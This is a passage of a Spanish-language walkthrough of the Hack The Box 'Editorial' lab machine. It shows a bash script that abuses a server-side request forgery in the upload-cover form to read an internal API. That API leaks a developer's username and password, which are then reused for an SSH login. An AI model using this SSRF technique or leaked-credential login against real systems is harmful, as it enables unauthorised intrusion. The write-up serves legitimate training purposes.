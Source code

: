 Parece que en el puerto `5000` de la máquina hay una api corriendo internamente.

Para navegar por ella cómodamente, haremos un pequeño script en bash que haga la solicitud y devuelva la respuesta en texto claro, sin tener que descargar ningún archivo con la respuesta.

```
nano doreq.sh
```

```bash
#!/bin/bash

path=$(curl -s -X POST http://editorial.htb/upload-cover -F "bookurl=$1" -F "bookfile=@test.txt")
curl -s "http://editorial.htb/${path}"
```

Por ejemplo vamos a inspeccionar la ruta `api/latest/metadata/messages/authors`.

```
./doreq.sh "http://127.0.0.1:5000/api/latest/metadata/messages/authors" | jq
```

```json
{
  "template_mail_message": "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, Editorial Tiempo Arriba Team."
}
```

Nos devuelve un mensaje que formateado quedaría de la siguiente manera.

```
Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.

Your login credentials for our internal forum and authors site are:
Username: dev
Password: dev080217_devAPI!@
Please be sure to change your password as soon as possible for security purposes.

Don't hesitate to reach out if you have any questions or ideas - we're always here to support you.

Best regards, Editorial Tiempo Arriba Team.
```

Parece un mensaje de bienvenida a un nuevo trabajador, le están dando su usuario y contraseña: `dev:dev080217_devAPI!@`.

Vamos a probar a autenticarnos en la máquina por ssh con estas credenciales.

```
ssh dev@editorial.htb

dev@editorial.htb's password: dev080217_devAPI!@
```
